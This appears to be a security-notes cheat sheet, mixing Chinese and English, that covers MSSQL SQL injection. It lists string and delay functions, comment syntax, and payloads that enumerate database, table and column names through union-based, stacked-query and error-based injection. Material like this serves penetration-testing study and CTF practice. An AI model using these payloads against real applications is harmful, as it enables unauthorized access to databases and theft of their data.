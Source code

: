 ## MSSQL

- 子字串：
  - `SUBSTRING("abc", 1, 1) => 'a'`
- Ascii function
  - `ascii('A') => 65 `
- Char function
  - `char(65) => 'a'`
- Concatenation
  - `+`
  - `'a'+'b' => 'ab'`
- Delay function
  - `WAIT FOR DELAY '0:0:10'`
- 空白字元
  - `01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20`
- IF語句
  - IF condition true-part ELSE false-part
  - `IF (1=1) SELECT 'true' ELSE SELECT 'false'`
- 註解：
  - `--`
  - `/**/`
- TOP
  - MSSQL沒有`LIMIT N, M`的用法
  - `SELECT TOP 87 * FROM xxx` 取最前面87筆
  - 取第78~87筆
    - `SELECT pass FROM (SELECT pass, ROW_NUMBER() OVER (ORDER BY (SELECT 1)) AS LIMIT FROM mydb.dbo.mytable)x WHERE LIMIT between 78 and 87`
- 其它：
  - db_name()
  - user_name()
  - @@servername
  - host_name()
- 爆DB name
  - ```DB_NAME(N)```
  - ```UNION SELECT NULL,DB_NAME(N),NULL--```
  - ```UNION SELECT NULL,name,NULL FROM master ..sysdatabases--```
  - `SELECT catalog_name FROM information_schema.schemata`
  - ```1=(select name from master.dbo.sysdatabases where dbid=5)```
- 爆表名
  - `SELECT table_catalog, table_name FROM information_schema.tables`
  - `SELECT name FROM sysobjects WHERE xtype='U'`
  - `ID=02';if (select top 1 name from DBname..sysobjects where xtype='U' and name not in ('table1', 'table2'))>0 select 1--`

- 爆column
  - `SELECT table_catalog, table_name, column_name FROM information_schema.columns`
  - `SELECT name FROM syscolumns WHERE id=object_id('news')`
  - `ID=1337';if (select top 1 col_name(object_id('table_name'), i) from sysobjects)>0 select 1--`
- Union Based
  - Column型態必須相同
  - 可用`NULL`來避免
- Error Based
  - 利用型別轉換錯誤
  - `id=1 and user=0`
